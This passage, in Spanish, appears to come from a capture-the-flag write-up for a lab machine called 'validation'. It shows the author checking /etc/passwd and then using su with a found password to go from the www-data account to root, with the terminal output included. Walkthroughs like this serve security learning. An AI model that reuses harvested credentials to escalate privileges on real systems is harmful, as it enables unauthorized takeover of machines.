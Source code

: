 Al inspeccionar el `/etc/passwd` nos damos cuenta que el único usuario que hay posible es root, así que probamos la contraseña `uhc-9qual-global-pw` para convertirnos en usuario `root` y funciona

```
www-data@validation:/var/www/html$ su root
Password: 
root@validation:/var/www/html# whoami
root
```
